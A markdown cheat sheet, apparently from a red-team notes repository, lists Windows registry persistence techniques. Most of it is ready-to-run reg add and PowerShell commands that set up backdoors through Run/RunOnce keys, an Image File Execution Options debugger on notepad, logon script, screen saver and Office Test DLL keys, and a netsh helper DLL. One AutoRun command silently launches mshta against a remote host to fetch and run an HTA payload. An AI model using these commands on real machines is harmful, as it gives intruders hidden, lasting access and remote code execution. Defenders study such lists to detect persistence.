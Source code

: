 # Registry Keys

## 01 - Manual

### 1.1 - Registry Key Values

#### 1.1.1 - Registry key values both command prompt and powershell

|reg.exe|Set-ItemProperty|DataType in .reg|
|-------|----------------|----------------|
|REG_SZ|String||
|REG_EXPAND_SZ|ExpandString|hexadecimal(2)|
|REG_DWORD|DWord|dword|
|REG_QWORD|QWord|qword|
|REG_MULTI_SZ|MultiString|hexadecimal(7)|
|REG_BINARY|Binary|hexadecimal|

```
C:\> reg import file.reg

C:\> reg add "hklm\software\microsoft\windows\currentversion\run" /v <value> /t reg_sz /d "C:\path\to\shell.exe" /f
```

```powershell
PS C:\> set-itemproperty -path "hklm:\software\microsoft\windows\currentversion\run" -name "<value>" -propertytype string -value "C:\path\to\shell.exe" -force
```

### 1.2 - Registry Backdoors

#### 1.2.1 - HKLM

##### 1.2.1.1 - Syntax

`C:\> reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\run" /v <value> /t reg_sz /d "rundll32.exe C:\path\to\shell.dll,ExecDLL" /f`

##### 1.2.1.2 - Registry Paths

```
C:\> reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v Autorun /t REG_SZ /d "C:\path\to\shell.exe"

C:\> reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce" /v UpdateOnce /t REG_SZ /d "C:\path\to\shell.exe"

C:\> reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunServices" /v WindowsService /t REG_SZ /d "C:\path\to\shell.exe"

C:\> reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v UpdateSVC /t REG_SZ /d "C:\path\to\shell.exe"

C:\> reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001" /v Autorun /t REG_SZ /d "C:\path\to\shell.exe"

C:\> reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend" /v Dependency /t REG_SZ /d "C:\path\to\shell.dll"
```

##### 1.2.1.3 - Image File Execution Options

- Notepad

`C:\> reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Image File Execution Options\notepad" /v Debugger /d "C:\path\to\shell.exe"`

##### 1.2.1.4 - COM Hijacking

TODO: Fill this info

#### 1.2.2 - HKCU

##### 1.2.2.1 - Registry Paths

```
C:\> reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v Image /t REG_SZ /d "C:\path\to\shell.exe" /f

C:\> reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v Image /t REG_SZ /d "powershell.exe -ep bypass -w hidden -nologo -NonI -f C:\path\to\shell.ps1" /f

C:\> reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce" WindowsUpdate /t REG_SZ /d "rundll32.exe C:\path\to\shell.dll,ExecuteShell" /f

C:\> reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\RunServices" /v Image /t REG_SZ /d "C:\path\to\shell.exe" /f

C:\> reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v Image /t REG_SZ /d "C:\path\to\shell.exe" /f

C:\> reg add "HKCU\SOFTWARE\Microsoft\Command Processor" /v AutoRun /t REG_SZ /d "powershell.exe Start-Process -windowstyle hidden -FilePath mshta.exe http://<IP>/shell.hta" /f
```

##### 1.2.2.2 - LogonScript

`C:\> reg add "HKCU\Environment" /v UserInitMprLogonScript /d "C:\path\to\shell.bat" /t REG_SZ /f`

##### 1.2.2.3 - Screen Saver

```
C:\> reg add "HKCU\Control Panel\Desktop" /v "SCRNSAVE.EXE" /t REG_SZ /d "C:\path\to\shell.exe" /f

C:\> reg add "HKCU\Control Panel\Desktop" /v "ScreenSaveTimeOut" /t REG_SZ /d "<seconds>" /f
```

##### 1.2.2.4 - Microsoft Office

`C:\> reg add "HKCU\SOFTWARE\Microsoft\Office Test\Special\Perf" /t REG_SZ /d "C:\path\to\shell.dll" /f`

##### 1.2.2.5 - COM Hijacking

TODO: Fill this info

#### 1.2.3 - Netsh Backdoor

```
C:\> reg add "hklm\software\microsoft\windows\currentversion\run" /v "Firewall Rules Persist" /t reg_sz /d "C:\Windows\System32\netsh" /f

C:\> netsh add helper C:\path\to\shellDLL.dll

C:\> netsh

netsh> add helper C:\path\to\shellDLL.dll
```

- To cleanup the backdoor

```
C:\> netsh delete helper C:\path\to\shell.dll

C:\> netsh

netsh> delete helper C:\path\to\shell.dll

C:\> reg delete "HKLM\SOFTWARE\Microsoft\NetSh" /v shellDLL /f
```

## 02 - SharPersist

TODO: Fill this info

## References

- [Mandiant: SharPersist Windows Persistence Toolkit](https://www.mandiant.com/resources/sharpersist-windows-persistence-toolkit)

- [Zweilosec: Windows RedTeam Persistence](https://zweilosec.gitbook.io/hackers-rest/windows-1/windows-redteam/persistence)

- [Persistence Info](https://persistence-info.github.io/)